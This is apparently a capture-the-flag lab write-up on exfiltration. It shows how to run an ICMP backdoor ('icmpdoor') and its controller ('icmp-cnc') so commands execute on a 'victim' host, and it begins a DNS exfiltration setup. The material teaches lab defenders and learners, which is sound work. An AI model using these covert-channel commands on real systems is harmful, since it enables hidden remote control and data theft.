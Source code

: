 - Once the command is executed, a victim machine sends the execution output within the ICMP packet in the `Data section`:
![](/assets/img/Pasted image 20230110004037.png)

**Assumptions in this room**: The needed C2 comms over the ICMP protocol on `JumpBox` and `ICMP-Host` machines are already prepared.

##### 1. First, we need to log in to the ICMP machine, `icmp.thm.com` , and execute the `icmpdoor` binary as follows:
<u>Format</u>:
`thm@icmp-host:~$ sudo icmpdoor -i eth0 -d <icmp-machine-ipaddr>`

![](/assets/img/Pasted image 20230110005558.png)

**Note**: we specify the interface to communicate over and the destination IP of the server-side.

##### 2. Next, log in to the `JumpBox` and execute the `icmp-cnc` binary to communicate with the victim, our ICMP-host.
- Once the execution runs correctly, a communication channel is established over the ICMP protocol.
- Now, we are ready to send the command that needs to be executed on the victim machine:
`thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121`

![](/assets/img/Pasted image 20230110011634.png)

	- I entered "hostname" on the C2(cnc) and the listener returns 'icmp-host' as its hostname which is correct.

![](/assets/img/Pasted image 20230110011731.png)

	- Basic linux commands works!

**Network Traffic** in Wireshark:
![](/assets/img/Pasted image 20230110011843.png)

	- This wireshark is probably at jump.thm.box or somewhere in the same machine in network 1 to eavesdrop between these two machines talking.

### Get the flag:
![](/assets/img/Pasted image 20230110012143.png)


--------
# DNS Configuration

- To perform exfiltration via the DNS protocol, you need to control a `domain name` and `set up DNS records`, including:

		- NS
		- A
		- TXT

- Thus, we provide a web interface to make it easy for you to add and modify the DNS records.
- The following domain name is set up and ready for the DNS exfiltration task: `tunnel.com`
